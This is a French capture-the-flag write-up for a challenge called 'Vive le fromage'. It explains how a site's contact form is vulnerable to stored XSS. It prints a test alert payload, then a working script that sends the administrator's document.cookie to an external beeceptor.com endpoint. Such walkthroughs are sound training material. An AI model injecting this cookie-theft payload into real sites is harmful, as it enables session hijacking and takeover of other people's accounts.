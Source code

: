 # Vive le fromage
## Énnoncé
Ce site de grands amateurs de fromage présente un formulaire de contact. Exploiter-le pour récupérer le cookie administrateur.

https://p2t.hackademint.org/
## Solution
En allant sur le site donné dans l'énnoncé on trouve en bas de page un formulaire de contact. Pour voler des cookies, l'idée de base à essayer quand on dispose d'un formulaire de contact est d'essayer une [attaque XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting).
Pour vérifier que l'on est sur la bonne piste on va rentrer dans le formulaire de contact les lignes suivantes :
```html
<script>
alert("Faille XSS");
</script>
```
Puis on va cliquer sur 'Visualiser'.
Il y a bien une pop-up qui s'affiche avec marqué 'Faille XSS'. Le site est donc vulnérable à une attaque XSS.
Pour voler le cookie de l'administrateur il va falloir envoyer le formulaire de contact et non juste le visualiser (le code javascript s'exécutera dans le navigateur de l'admin et non plus dans le nôtre), récupérer le cookie grâce au code contenu dans la balise script et enfin trouver un moyen de le renvoyer à un endroit que l'on peut consulter.

Les cookies se récupèrent grâce à `document.cookie` dans le javascript.
Pour envoyer les cookies on peut procéder de la manière suivante :
 * utiliser https://beeceptor.com pour créer un endpoint
 * exécuter une reqête à notre endpoint grâce au code javascript en mettant en paramètre les cookies de l'administrateur
On va donc envoyer par le formulaire de contact :
```
<script>
var i=new Image;
i.src="https://starhackademint.free.beeceptor.com/?cookie="+document.cookie;
</script>
```
On reçoit alors sur beeceptor le cookie administrateur qui permet de valider le challenge